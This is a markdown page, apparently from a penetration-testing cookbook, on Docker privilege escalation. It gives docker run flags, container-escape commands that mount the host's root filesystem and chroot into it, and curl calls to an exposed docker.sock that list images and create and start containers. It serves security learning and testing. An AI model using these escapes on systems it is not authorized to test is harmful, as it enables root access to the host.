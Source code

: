 ```yaml
---
layout: default
title: Docker
parent: COOKBOOKS
has_children: false
has_toc: false
---
```


{% include toc.html %}

## References

[PrivEsc with docker](https://medium.com/@Affix/privilege-escallation-with-docker-56dc682a6e17)

[Docker socket](https://medium.com/better-programming/about-var-run-docker-sock-3bfd276e12fd)

[GTFOBins docker page](https://gtfobins.github.io/gtfobins/docker/)

[Docker run command](https://docs.docker.com/engine/reference/commandline/container_run/)

[Docker api reference](https://docs.docker.com/engine/api/v1.40/#)

## Docker run
See the [docker run cli reference](https://docs.docker.com/engine/reference/commandline/container_run/) for more details and a full list of options.

|Command|Description|
|:---|:---|
|`--rm`|Automatically remove the container when finished.|
|`--interactive`, `-i`|Start the container in interactive mode so you can use it.|
|`--tty`, `-t`|Start a `tty` so you can interactive with the container.|
|`--volume`, `-v`|Mount a volume at the specified location.|
|`--volume /:/mnt`|Mount the root of the host to `/mnt` within the container.|
|`--volume /root:/mnt`|Mount root's home folder of the host to `/mnt/` within the container.|

## Docker escapes using docker run
You'll need a `docker` binary in the container in order to use `docker run`. If you have a shell on the host system you can check if the host and the container are on the same network. If they are, you may be able to `wget` the docker binary from the host to the container.

```
// Download the 'hello-world' container from the docker repo and run it.
docker run hello-world

// Run the 'ubuntu' container in interactive mode with a tty and execute the command /bin/bash to return a shell and automatically clean up once complete.
docker run --rm --interactive --tty ubuntu /bin/bash

// Shorthand version of the same command.
docker run --rm -it ubuntu /bin/bash

// Mount the entire / volume of the host machine to /mnt within the container 'ubuntu' and performs a 'chroot' on /mnt inside the container.
docker run --rm --volume /:/mnt -it ubuntu chroot /mnt

// Mount the /root directory of the host machine to /mnt within the container.
docker run --rm --volume /root:/mnt -it ubuntu
```

## Docker socket
If there is a `docker.sock` socket in `/var/run/` of the container, you can communicate with the docker daemon on the host (see [this article](https://medium.com/better-programming/about-var-run-docker-sock-3bfd276e12fd) for more details). Most of the docker endpoints are mapped to commands, for example `GET http://localhost/containers/json` maps to `docker ps`. See the right-hand side of the [docker specification](https://docs.docker.com/engine/api/v1.40/#) page for details of the endpoints. For example:

```
// Request the summary image data..
curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
```

`POST` can be used to do things like create and run containers, for example:

```
// Create a container via the docker.sock socket.
curl -X POST --unix-socket /var/run/docker.sock -d '{"Image":"nginx"}' -H 'Content-Type: application/json' http://localhost/containers/create

{"Id":"age65...g45","Warnings":null}

// Start the container.
curl -X POST --unix-socket /var/run/docker.sock http://localhost/containers/age65...g45/start
```